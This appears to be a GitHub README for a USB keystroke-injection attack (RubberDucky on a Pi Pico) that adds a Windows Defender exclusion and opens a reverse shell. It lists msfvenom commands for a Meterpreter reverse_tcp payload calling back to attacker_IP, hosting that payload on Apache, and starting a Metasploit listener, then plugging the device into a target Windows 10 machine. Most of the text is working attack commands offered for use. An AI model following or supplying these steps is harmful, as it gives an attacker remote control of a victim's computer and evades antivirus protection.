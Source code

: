 Windows Defender ExclusionPath + ReverseShell
=============================================

1. Create payload using msfvenom in kali linux:
> $ msfvenom -p windows//x64/meterpreter/reverse_tcp lhost=attacker_IP lport=port -f exe -o /var/www/html/windowsx64.exe
  
2. Run Apache Service on Kali Linux:
> $ service apache2 start
  
3. Run Metasploit on Kali Linux:
> $ msfconsole <br />
> $ use exploit/multi/handler <br />
> $ set payload windows/x64/meterpreter/reverse_tcp <br />
> $ set LHOST attacker_IP <br />
> $ set LPORT port <br />
> $ run
  
4. Copy payload.dd script to Pi Pico.
  
5. Open payload.dd, edit URL and save.
  
5. Connect RubberDucky to Target Machine.
  
P/S : Tested on Windows 10 Version 21H1(OS Build 19043.1348)
  
![Win Ver](https://github.com/auffAzani/RubberDucky/blob/main/Windows%20Defender%20ExclusionPath%20%2B%20ReverseShell/Winver.PNG)
